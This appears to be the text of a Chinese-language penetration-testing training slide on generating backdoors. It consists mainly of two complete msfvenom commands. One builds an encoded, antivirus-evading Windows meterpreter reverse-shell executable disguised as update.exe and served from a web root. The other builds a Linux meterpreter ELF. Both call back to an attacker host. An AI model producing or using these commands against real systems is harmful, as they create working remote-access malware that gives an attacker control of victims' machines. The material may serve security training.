

多种后门生成
生成Windows后门（使用两个编码器组合编码）
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.77.128 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 10 -f exe -o /var/www/html/update.exe
Linux后门（略）
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.77.128 LPORT=4444 -b "\x00" -i 10 -f elf -o /var/www/html/xuegod.elf
Java后门，PhP后门，Jsp后门，Asp后门，Android后门